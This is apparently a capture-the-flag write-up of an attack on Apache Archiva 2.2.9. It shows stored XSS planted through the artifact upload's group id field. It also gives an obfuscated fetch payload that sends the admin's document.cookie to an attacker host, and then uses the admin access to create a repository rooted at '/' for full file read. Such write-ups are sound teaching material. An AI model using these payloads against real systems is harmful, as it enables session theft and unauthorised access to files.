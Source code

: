 
Apache Archiva is a repository management software that helps us to take care of our personal as well as enterprise build repository.
Here we are using the version 2.2.9
We can login as a normal user using the credentials:
user: ctf
pass: H4v3Fun

As there is a server and an admin bot, this challenge can probably be an xss challenge
Looking at the source code, we can see that the admin visits, /repository/internal. So, we should try to make an entry to this page, but a normal user has very less privileges.
So, there is an upload functionality here, (in upload artifact). So, this page allows to upload a file to already existing repository.

Lets try giving a simple alert(1) payload to see if we have xss:
repo id: internal
group id : `<img src=a onerror=alert(1)>`
artifact: 1
version: 1
packaging : 1
upload a random file: then save.
Go to http://localhost:8055/repository/internal/ we can see we have xss

Now our goal is to steal the admin cookie and get the admin privileges which has lot more functionalitites like creating a repository.
To steal admin cookie:
`<img src=a onerror="fetch(String.fromCharCode(47)+String.fromCharCode(47)+'{my_host}:{my_port}'+String.fromCharCode(47)+btoa(document.cookie))">`

After getting the admin priveleges: create a new repo
id=root
name=root
directory=/
Accessed via http://localhost:8055/repository/root/ giving us complete read access to the entire system.
